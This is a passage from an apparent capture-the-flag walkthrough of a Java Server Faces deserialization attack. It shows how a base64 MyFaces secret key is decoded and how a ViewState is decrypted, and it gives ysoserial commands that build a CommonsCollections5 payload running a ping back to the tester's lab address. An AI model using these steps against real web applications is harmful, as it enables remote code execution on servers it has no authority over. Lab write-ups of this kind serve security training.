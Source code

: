 

##### Secret key definition in documentation :
#### Description: 
Defines the secret (Base64 encoded) used to initialize the secret key for encryption algorithm. See MyFaces wiki/web site documentation for instructions on how to configure an application for different encryption strengths.

So the secret key in web.xml is base64 encoded :
```
$  key=$(echo "SnNGOTg3Ni0=" | base64 -d)
key="JsF9876-"
```
#####  Nota :

Serialized object has the followig patterns :
##### "'\xac\xed\x00\x05" in Hexa 
or 
##### "r00" in Base64

And with our [viewstate](https://github.com/roughiz/Arkham-walktrough/blob/master/viewstate.py) python decrypt function we have the good head pattern :
```
$ python viewstate.py -a decrypt 
data decrypted: '\xac\xed\x00\x05ur\x00\x13[Ljava.lang.Object;\x90\xceX\x9f\x10s)l\x02\x00\x00xp\x00\x00\x00\x03t\x00\x011pt\x00\x12/userSubscribe.jsp'
```

It works great, so let's create a payload now.
For that i use a famous tool, which generate payloads for Java object deserialization, [ysoserial](https://github.com/frohoff/ysoserial)

I found a fork from this tool, more simple to add commands for (bash, cmd , powershell) [modified ysoserial](https://github.com/pimps/ysoserial-modified)

We can use many payloads types, and at the first i used Myfaces1 and Myfaces2 but they dosen't work, i had this error: 

##### javax.faces.application.ViewExpiredException: viewId:/userSubscribe.faces - No saved view state could be found for the view identifier: /userSubscribe.faces
And i spent many many times but dosen't work, until i tried other payload and finally "CommonsCollections5" works great and i could ping my self.

First listen for icmp :
```
$ sudo tcpdump -v -nni tun0 icmp

$ java -jar ysoserial-modified.jar CommonsCollections5 cmd  'ping 10.10.14.7'  > payload
```

To encode special caracters to url format :
```
$  echo $(python viewstate.py -a encrypt )  | sed -f /usr/lib/ddns/url_escape.sed
```
Find the url_escape.sed file here [url_escape.sed](https://github.com/roughiz/Arkham-walktrough/blob/master/url_escape.sed)